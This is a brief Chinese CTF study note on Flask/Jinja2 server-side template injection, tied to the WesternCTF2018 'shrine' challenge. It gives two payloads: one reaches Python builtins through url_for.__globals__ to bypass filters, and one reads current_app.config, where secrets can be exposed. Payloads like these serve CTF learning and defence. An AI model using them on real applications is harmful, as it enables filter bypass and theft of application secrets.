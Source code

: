 参见 [[[WesternCTF2018]shrine（学习）]]

```python
{{url_for.__globals__['__builtins__']}}
```
这玩意可以获取到各种内置函数，绕过一些变态的过滤

---
```python
{{url_for.__globals__['current_app'].config}}
```
如果`app.config`被覆写了的话就用这个

#Web #flask #SSTI #urlfor #globals #绕过 #python 